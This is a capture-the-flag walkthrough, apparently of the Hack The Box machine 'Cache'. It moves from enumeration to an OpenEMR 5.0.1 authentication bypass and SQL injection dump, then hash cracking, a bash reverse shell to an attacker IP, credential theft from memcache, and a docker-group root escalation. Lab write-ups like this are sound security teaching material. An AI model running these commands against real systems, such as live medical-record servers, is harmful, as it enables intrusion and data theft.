 # Cache

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.211.212
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-10 10:30 EDT
Nmap scan report for 10.129.211.212
Host is up (0.0089s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### Accidental Subdomain Enum

Port 80 reveals a blog like website:

<figure><img src="../../../.gitbook/assets/image (24) (2).png" alt=""><figcaption></figcaption></figure>

There's not much here, but we can add `cache.htb` to our `/etc/hosts` file since there's a banner for it on screen. I ran a `gobuster` and `wfuzz` scan on the machine. Funnily, I accidentally had a typo in my `wfuzz` command, and found a completely new domain present:

```
$ wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -H 'Host:FUZZ.htb' --hw=973 -u http://cache.htb  /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://cache.htb/
Total requests: 19966

=====================================================================
ID           Response   Lines    Word       Chars       Payload                     
=====================================================================
                   
000010187:   302        0 L      0 W        0 Ch        "hms"
```

`hms.htb` is active on this machine. We can visit that.

### OpenEMR

The page shows us a login for OpenEMR, which is known to have a ton of vulnerabilities:

<figure><img src="../../../.gitbook/assets/image (22) (9) (1).png" alt=""><figcaption></figcaption></figure>

We can head to the Github Repo for this software and attempt to find its version using the default files present:

{% embed url="https://github.com/openemr/openemr" %}

Visiting `sql_patch.php` reveals that this is OpenEMR 5.0.1:

<figure><img src="../../../.gitbook/assets/image (681).png" alt=""><figcaption></figcaption></figure>

This version has quite a few RCE exploits for it:

```
$ searchsploit openemr 5.0.1
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
OpenEMR 5.0.1 - 'controller' Remote Code Execution         | php/webapps/48623.txt
OpenEMR 5.0.1 - Remote Code Execution (1)                  | php/webapps/48515.py
OpenEMR 5.0.1 - Remote Code Execution (Authenticated) (2)  | php/webapps/49486.rb
OpenEMR 5.0.1.3 - Authentication Bypass                    | php/webapps/50017.py
```

There's also an authentication bypass exploit here:

{% embed url="https://www.exploit-db.com/exploits/50017" %}

To bypass it, all we have to do is simply visit `/portal/account/register.php`, and it would treat us as logged in with a valid token. Searching for exploits led me to a [PDF](https://www.open-emr.org/wiki/images/1/11/Openemr\_insecurity.pdf) that had the vulnerability report for v5.0.1.3, and there are lot including a lot of SQL Injections.

Firstly, visiting `/portal/find_appt_popup_user.php` just works as we have 'bypassed' the login.&#x20;

<figure><img src="../../../.gitbook/assets/image (671).png" alt=""><figcaption></figcaption></figure>

For this case, the second PoC listed works best.&#x20;

<figure><img src="../../../.gitbook/assets/image (683).png" alt=""><figcaption></figcaption></figure>

Using `sqlmap`, we can enumerate and view the stuff in the database. (skipped the enumeration)

<pre><code>$ sqlmap -r req -D openemr -T users_secure --dump
<strong>Table: users_secure
</strong>[1 entry]
+----+---------+--------------------------------------------------------------+----------+---------------------+---------------+---------------+--------------------------------+-------------------+
| id | salt    | password                                                     | username | last_update         | salt_history1 | salt_history2 | password_history1              | password_history2 |
+----+---------+--------------------------------------------------------------+----------+---------------------+---------------+---------------+--------------------------------+-------------------+
| 1  | &#x3C;blank> | $2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B. | &#x3C;blank>  | 2019-11-21 06:38:40 | &#x3C;blank>       | &#x3C;blank>       | $2a$05$l2sTLIG6GTBeyBf7TAKL6A$ | openemr_admin     |
+----+---------+--------------------------------------------------------------+----------+---------------------+---------------+---------------+--------------------------------+-------------------+
</code></pre>

We can crack this hash in `john`.&#x20;

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash      
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 32 for all loaded hashes
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xxxxxx           (?)     
1g 0:00:00:00 DONE (2023-05-10 10:53) 5.555g/s 4800p/s 4800c/s 4800C/s lester..felipe
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Now that we have the admin password, we can do RCE.&#x20;

{% embed url="https://www.exploit-db.com/exploits/45161" %}

Remember to use `python2`.&#x20;

```
$ python2 45161.py -u openemr_admin -p xxxxxx -c 'bash -i >& /dev/tcp/10.10.14.13/4444 0>&1' http://hms.htb
```

<figure><img src="../../../.gitbook/assets/image (670).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Ash Creds

I searched all the files within `/var/www` except for OpenEMR for credentials:

```
www-data@cache:/var/www/cache.htb/public_html$ grep -iRl 'Password' ./
./login.html
./index.html
./jquery/functionality.js
```

So here's the stuff within that file:

```javascript
www-data@cache:/var/www/cache.htb/public_html$ cat ./jquery/functionality.js
$(function(){
    
    var error_correctPassword = false;
    var error_username = false;
    
    function checkCorrectPassword(){
        var Password = $("#password").val();
        if(Password != 'H@v3_fun'){
            alert("Password didn't Match");
            error_correctPassword = true;
```

Using that password, we can `su` to `ash`.

<figure><img src="../../../.gitbook/assets/image (661).png" alt=""><figcaption></figcaption></figure>

### Memcache

When we enumerate the ports that are open, we can see that port 11211 is listening:

```
ash@cache:~$ netstat -tulpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:11211         0.0.0.0:*               LISTEN      -            
<TRUNCATED>
```

This is the `memcache` service.

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/11211-memcache" %}

We can enumerate the items within it:

```
ash@cache:~$ echo "stats cachedump 1 0" | nc -vn -w 1 127.0.0.1 11211 
Connection to 127.0.0.1 11211 port [tcp/*] succeeded!
ITEM link [21 b; 0 s]
ITEM user [5 b; 0 s]
ITEM passwd [9 b; 0 s]
ITEM file [7 b; 0 s]
ITEM account [9 b; 0 s]
END
```

We can grab the password and `su` to `luffy`.

```
ash@cache:~$ echo "get passwd" | nc -vn -w 1 127.0.0.1 11211         
Connection to 127.0.0.1 11211 port [tcp/*] succeeded!
VALUE passwd 0 9
0n3_p1ec3
END
```

### Docker Group

`luffy` is part of the `docker` group.&#x20;

```
luffy@cache:/home/ash$ id
uid=1001(luffy) gid=1001(luffy) groups=1001(luffy),999(docker)
luffy@cache:/home/ash$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
ubuntu              latest              2ca708c1c9cc        3 years ago         64.2MB
```

We can just run this command to create an Ubuntu container that is mounted on the main file system, where we have access to the container as `root`. This effectively gives us `root` access to the main file system to make `/bin/bash` an SUID binary.&#x20;

```
luffy@cache:/home/ash$ docker run -it --rm -v /:/mnt ubuntu chroot /mnt bash
root@ee809b31a278:/# id
uid=0(root) gid=0(root) groups=0(root)
root@ee809b31a278:/# cd root
root@ee809b31a278:~# ls
root.txt  run.sh  should_work
root@ee809b31a278:~# chmod u+s /bin/bash
```

Then we can exit this and get a shell with EUID of `root`.

<figure><img src="../../../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>
